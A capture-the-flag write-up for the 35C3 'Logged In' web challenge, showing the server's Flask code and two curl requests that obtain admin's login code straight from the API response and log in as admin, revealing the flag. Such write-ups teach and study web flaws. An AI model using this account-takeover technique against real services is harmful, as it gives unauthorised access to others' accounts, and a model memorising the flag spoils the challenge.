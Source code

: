 # Logged In
Web

## Description:
> Phew, we totally did not set up our mail server yet. This is bad news since nobody can get into their accounts at the moment... It'll be in our next sprint. Until then, since you cannot login: enjoy our totally finished software without account.


## Solution:

This is a "Wee" challenge - see basic explanation [here](./Wee/).

Clicking the "Login" button pops up a login box, where the user is requested to enter an email or username.

If we try to enter "admin", a request gets sent to `/api/login` and the logic box now requests: "We have sent you an email with a magic code! Please enter it below".

Let's check what happens in the server side:

```python
@app.route("/api/login", methods=["POST"])
def login():
    print("Logging in?")
    # TODO Send Mail
    json = request.get_json(force=True)
    login = json["email"].strip()
    try:
        userid, name, email = query_db("SELECT id, name, email FROM users WHERE email=? OR name=?", (login, login))
    except Exception as ex:
        raise Exception("UserDoesNotExist")
    return get_code(name)
```

As expected, the mail service does not work yet, and the required code is returned to the user in the response:
```console
root@kali:/media/sf_CTFs/35c3ctf/Logged_In# curl 'http://35.207.132.47/api/login' -H 'Content-Type: application/json; charset=UTF-8' --data-binary '{"email":"admin"}' && echo
lrsrge
```

If we try this code, we get the following response:
```console
root@kali:/media/sf_CTFs/35c3ctf/Logged_In# curl 'http://35.207.132.47/api/verify' -H 'Content-Type: application/json; charset=UTF-8' --data-binary '{"code":"lrsrge"}' -i && echo
HTTP/1.1 200 OK
Server: nginx/1.15.8
Date: Tue, 01 Jan 2019 19:57:30 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 0
Connection: keep-alive
Set-Cookie: token=vsfrhvlixgcakewqactbyotkdsrhjehq; Expires=Sun, 19-Jan-2087 23:11:37 GMT; Max-Age=2147483647; Path=/
Set-Cookie: name=admin; Expires=Sun, 19-Jan-2087 23:11:37 GMT; Max-Age=2147483647; Path=/
Set-Cookie: logged_in=35C3_LOG_ME_IN_LIKE_ONE_OF_YOUR_FRENCH_GIRLS; Path=/
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Content-Security-Policy: script-src 'self' 'unsafe-inline';
Referrer-Policy: no-referrer-when-downgrade
Feature-Policy: geolocation 'self'; midi 'self'; sync-xhr 'self'; microphone 'self'; camera 'self'; magnetometer 'self'; gyroscope 'self'; speaker 'self'; fullscreen *; payment 'self';
```

The matching code is:
```python
@app.route("/api/verify", methods=["POST"])
def verify():
    code = request.get_json(force=True)["code"].strip()
    if not code:
        raise Exception("CouldNotVerifyCode")
    userid, = query_db("SELECT userId FROM userCodes WHERE code=?", code)
    db = get_db()
    c = db.cursor()
    c.execute("DELETE FROM userCodes WHERE userId=?", (userid,))
    token = random_code(32)
    c.execute("INSERT INTO userTokens (userId, token) values(?,?)", (userid, token))
    db.commit()
    name, = query_db("SELECT name FROM users WHERE id=?", (userid,))
    resp = make_response()
    resp.set_cookie("token", token, max_age=2 ** 31 - 1)
    resp.set_cookie("name", name, max_age=2 ** 31 - 1)
    resp.set_cookie("logged_in", LOGGED_IN)
    return resp
```

And we are logged in as "admin", with the flag being sent as part of the cookie: 35C3_LOG_ME_IN_LIKE_ONE_OF_YOUR_FRENCH_GIRLS